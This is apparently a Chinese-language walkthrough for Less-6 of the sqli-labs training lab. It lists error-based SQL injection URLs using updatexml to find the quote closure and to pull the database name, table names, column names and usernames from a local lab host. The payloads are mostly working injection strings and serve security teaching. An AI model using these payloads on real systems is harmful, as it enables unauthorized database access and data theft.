






# Less - 06

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1 #回显正常
http://192.168.225.132/sqli-labs/Less-6/?id=1' #回显正常
http://192.168.225.132/sqli-labs/Less-6/?id=1" #回显错误
http://192.168.225.132/sqli-labs/Less-6/?id=1"--+ #回显正常
```

​​

​​

---

## 2、查看当前的数据库

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​​

## 3、查看security库下的表

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)--+
```

​​

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)--+
```

​​

## 5、查看username字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(select username from security.users limit 0,1),0x7e),1)--+
```

​​

##
